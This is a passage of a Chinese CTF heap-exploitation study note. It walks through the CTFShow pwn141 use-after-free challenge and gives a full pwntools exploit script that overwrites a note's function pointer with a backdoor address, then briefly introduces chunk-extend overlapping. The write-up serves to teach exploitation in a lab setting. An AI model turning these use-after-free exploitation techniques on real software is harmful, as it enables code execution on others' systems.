 **这里的话也就是直接使用第二次释放的这个堆块，然后将这个堆块从链表中移除，接着根据堆块的 fk 指针找到这个堆块**，此时 main_arena 就指向了这里。也就是恢复到了上面第一个图中的情况。

这里用CTFshow里的[CTFShow-pwn141](https://ctf.show/challenges#pwn141-4160)来测试
![[Pasted image 20250316201715.png]]
这是一道典型的UAF的题目，有创建，删除，输出三个函数，
add_notes函数，将堆指针存在notelist中
![[Pasted image 20250316202332.png]]
del_notes函数，free堆块，但没有清除notelist里的指针，这就导致了UAF漏洞
![[Pasted image 20250316202347.png]]
print_note函数，调用notelist指向的函数，那么只要让notelist指向的函数指向为backdoors即可。
![[Pasted image 20250316202927.png]]
这里看一下`add_notes`函数，先用了`malloc(8)`来存放`print`的地址，然后在`malloc(__size)`来存放我们输入的`context`，所以要`free`两次生成两个堆存放在fastbins里，然后再申请堆时，`malloc(8)`会用第一次`free`的堆，`malloc(__size)`会用第二次`free`的堆
exp:
```python
from pwn import *

context(arch='i386', os='linux', log_level='debug')
ip, port = 'pwn.challenge.ctf.show:28176'.split(':')
local = False
if local:
	p = process('./pwn141')
else:
	p = remote(ip, int(port))

def add_note(size, content):
	p.recvuntil(b'choice :')
	p.sendline(b'1')
	p.recvuntil(b'Note size :')
	p.sendline(size)
	p.recvuntil(b'Content :')
	p.send(content)

def del_note(idx):
	p.recvuntil(b'choice :')
	p.sendline(b'2')
	p.recvuntil(b'Index :')
	p.sendline(idx)

def print_note(idx):
	p.recvuntil(b'choice :')
	p.sendline(b'3')
	p.recvuntil(b'Index :')
	p.sendline(idx)

backdoors = 0x8049684
add_note(b'16', b'aaaa')
add_note(b'16', b'bbbb')
del_note(b'0')
del_note(b'1')
add_note(b'8', p32(backdoors))
print_note(b'0')

p.interactive()
```
## Chunk Extand
chunk extend 是堆漏洞的一种常见利用手法，通过 extend 可以实现 chunk overlapping 的效果。这种利用方法需要以下的时机和条件：
- 程序中存在基于堆的漏洞
- 漏洞可以控制 chunk header 中的数据
简单来说，通过修改一个`chunk`的`size`域，然后再`free`该`chunk`，会导致`free`的大小改变，此时在`malloc`一个该`size`大小的`chunk`，就可以控制该`chunk`的全部内容。就可以控制执行原有的指向被覆盖的`chunk`的指针。